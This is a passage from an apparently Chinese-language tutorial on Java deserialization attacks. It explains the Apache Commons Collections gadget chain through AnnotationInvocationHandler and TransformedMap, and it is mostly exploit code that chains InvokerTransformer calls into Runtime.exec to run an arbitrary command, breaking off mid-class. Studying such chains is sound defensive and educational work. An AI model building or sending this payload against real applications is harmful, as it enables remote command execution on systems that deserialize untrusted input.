 
可以注意到 `memberValue` 是 `AnnotationInvocationHandler` 类中类型声明为 `Map<String,Object>` 的成员变量，刚好和之前构造的 `TransformedMap` 类型相符，因此我们可以通过 Java 的反射机制动态的获取`AnnotationInvocationHandler` 类，使用精心构造好的 `TransformedMap` 作为它的实例化参数，然后将实例化的`AnnotationInvocationHandler` 进行序列化得到二进制数据，最后传递给具有相应环境的序列化数据交互接口使之触发命令执行的Gadget，完整代码如下：

    
    
    #!java
    package exserial.payloads;  
    
    import java.io.ObjectOutputStream;  
    
    import java.util.Map;
    import java.util.HashMap;   
    
    import java.lang.annotation.Target;
    import java.lang.reflect.Constructor;   
    
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.map.TransformedMap;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer; 
    
    import exserial.payloads.utils.Serializables;   
    
    public class Commons1 { 
    
        public static Object getAnnotationInvocationHandler(String command) throws Exception {
            String[] execArgs = command.split(",");
            Transformer[] transforms = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer(
                            "getMethod",
                            new Class[] {String.class, Class[].class},
                            new Object[] {"getRuntime", new Class[0]}
                    ),
                    new InvokerTransformer(
                            "invoke",
                            new Class[] {Object.class, Object[].class},
                            new Object[] {null, new Object[0]}
                    ),
                    new InvokerTransformer(
                            "exec",
                            new Class[] {String[].class},
                            new Object[] {execArgs}
                    )
            };
            Transformer transformerChain = new ChainedTransformer(transforms);
            Map tempMap = new HashMap();
            tempMap.put("value", "does't matter");
            Map exMap = TransformedMap.decorate(tempMap, null, transformerChain);
            Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
            Object instance = ctor.newInstance(Target.class, exMap);    
    